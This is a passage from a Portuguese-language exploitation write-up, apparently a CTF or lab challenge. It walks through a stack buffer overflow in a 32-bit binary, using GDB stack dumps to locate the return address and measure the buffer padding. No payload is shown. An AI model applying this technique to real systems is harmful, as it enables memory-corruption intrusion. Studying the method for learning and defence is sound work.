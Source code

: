 ```zsh
0
1
2
3
4
5
6
7
8
9
0
12
3

Failed to read word
Not authenticated
213Segmentation fault (core dumped)
```

O processo só foi encerrado quando inseri o `\n` e, além disso, tivemos um SegFault! Agora, nos resta encontrar o padding entre o buffer e o return address.

No GDB, iniciei o código e puz um breakpoint na função `concatenate_first_chars()`. Além disso, peguei o endereço da instrução após a chamada dessa função na `main()`:

```x86
   0x080487da <+36>:	mov    eax,0x1
   0x080487df <+41>:	jmp    0x80487f7 <main+65>
   0x080487e1 <+43>:	call   0x804871d <concatenate_first_chars>
   0x080487e6 <+48>:	mov    DWORD PTR [esp],0x8048915
   0x080487ed <+55>:	call   0x80485c0 <puts@plt>
   0x080487f2 <+60>:	mov    eax,0x0
```

Sabemos que o endereço da instrução é `0x080487e6`. Logo após, imprimi a stack quando 4 caracteres (inseri apenas "A") já haviam sido acumulados no buffer vulnerável:


```sh
gdb-peda$ x/200x $sp
0xbffffbc0:	0xbffffbd0	0x00000010	0xb7fcdc20	0xb7e56273
0xbffffbd0:	0x00000a41	0x00c30000	0x00000001	0x00000004
0xbffffbe0:	0xbffffbe8	0x41414141	0x0804a000	0x08048852
0xbffffbf0:	0x00000001	0xbffffcb4	0xbffffc18	0x080487e6
0xbffffc00:	0xb7fcd3c4	0xb7fff000	0x0804880b	0xb7fcd000
```

Repare que temos 4 bytes de `0x41` a partir de `0xbffffbe4`. Para confirmar, esperei acumular 5 bytes:

```sh
gdb-peda$ x/100x $sp
0xbffffbc0:	0xbffffbd0	0x00000010	0xb7fcdc20	0xb7e56273
0xbffffbd0:	0x00000a41	0x00c30000	0x00000001	0x00000005
0xbffffbe0:	0xbffffbe9	0x41414141	0x0804a041	0x08048852
0xbffffbf0:	0x00000001	0xbffffcb4	0xbffffc18	0x080487e6
0xbffffc00:	0xb7fcd3c4	0xb7fff000	0x0804880b	0xb7fcd000
```
